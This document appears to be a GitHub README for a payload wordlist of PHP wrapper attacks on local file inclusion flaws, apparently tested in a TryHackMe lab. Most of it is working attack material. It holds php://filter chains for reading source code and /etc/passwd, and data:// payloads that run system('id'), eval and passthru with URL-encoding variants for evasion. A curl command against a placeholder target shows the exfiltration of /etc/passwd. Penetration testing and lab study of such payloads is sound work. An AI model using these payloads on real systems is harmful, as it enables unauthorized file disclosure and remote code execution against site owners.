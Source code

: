 # LFI PHP wrapper 
## `LFI-PHP-wrapper.txt`
- Tested against the playground in https://tryhackme.com/room/filepathtraversal
- The payload list given in `LFI-PHP-wrapper.txt` should be modified by replacing the placedholder (`*`) with a common filename, such as `index.php` or `/etc/passwd`.

```shell
$ sed 's/*/index.php/g' [lfi-php-wrapper-txt-filename] > lfi-php-wrappers-custom.txt
$ sed 's/*/\/etc\/passwd/g' [lfi-php-wrapper-txt-filename] > lfi-php-wrappers-custom.txt
```

Eg.

1. `php://filter/convert.base64-encode/resource=*` -> `php://filter/convert.base64-encode/resource=index.php`
2. `php://filter/convert.base64-encode/resource=*` -> `php://filter/convert.base64-encode/resource=/etc/passwd`
   
> For more comprehensive testing, the placeholder can be combined with the payload in dedicated LFI/path-traversal payload list (`LF.md`, etc.). This would effectively combine the capabilities of both wordlists.

### Theory behind the payload values
#### `php://filter` wrapper
```php
php://filter/string.rot13/resource=* 
php://filter/string.toupper/resource=* 
php://filter/convert.base64-encode/resource=* 
php://filter/string.rot13|string.rot13/resource=*
php://filter/read=string.rot13|string.rot13/resource=*
php://filter/string.rot13|convert.base64-encode/resource=*
php://filter/convert.base64-encode|string.rot13/resource=*
php://filter/read=string.rot13|convert.base64-encode/resource=*
php://filter/read=convert.base64-encode|string.rot13/resource=*
php://filter/string.toupper|string.rot13|string.rot13/resource=*
php://filter/read=string.toupper|string.rot13|string.rot13/resource=*
php://filter/zlib.deflate/resource=*
php://filter/bzip2.compress/resource=*
php://filter/zlib.deflate|convert.base64-encode/resource=*
php://filter/bzip2.compress|convert.base64-encode/resource=*
```
**variations derived from:**
1. usage of different PHP filters (https://www.php.net/manual/en/filters.php)
2. chaining filters using `|`
3. using `php://filter/read=` instead of `php://filter`


#### `data://filter` wrapper
```php
data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg==
data:text/plain,<?php%20system('id');%20?>
data:text/plain,%3C%3Fphp%20system%28%27id%27%29%3B%20%3F%3E
data%3Atext%2Fplain%2C%3C%3Fphp%20system%28%27id%27%29%3B%20%3F%3E
data://text/plain,<?php%20eval(\"system('id');\");%20?>
```
**variations derived from:**
1. using both base64 (`data://text/plain;base64`) and plain text input (`data://text/plain`, `data:text/plain`)
2. url encoding variations:
- encoding special chars, different parts of the payload, and encoding an already encoded (first layer with non special char) payload
 - `data://text/plain,<?php passthru('id'); ?>` -> `data://text/plain,%3C?php%20passthru('id');%20?%3E`, `data%3A%2F%2Ftext%2Fplain%2C%3C%3Fphp%20passthru%28%27id%27%29%3B%20%3F%3E`  
 - `data://text/plain,<?php%20passthru('id');%20?>` -> `data://text/plain,%3C?php%2520passthru('id');%2520?%3E`, `data%3A%2F%2Ftext%2Fplain%2C%3C%3Fphp%2520passthru%28%27id%27%29%3B%2520%3F%3E`
   
3. utilizing various methods for achieving RCE: `system('id');`, `eval(\"system('id');\");`, `passthru(\"system('id');\");`


### Examples of working payload
1. ***bzip2 + base64 encode***
```php
php://filter/bzip2.compress|convert.base64-encode/resource=*
php://filter/read=bzip2.compress|convert.base64-encode/resource=*
```
- This will output a base64-encoded value that gives a bzip2 compressed data when decoded

Eg.
```shell
$ curl https://[target].com/page?=php://filter/bzip2.compress|convert.base64-encode/resource=/etc/passwd > output.txt

# extract base64 string
$ cat output.txt

$ echo [base64 string] | base64 -d | bzip2 -d
...
```

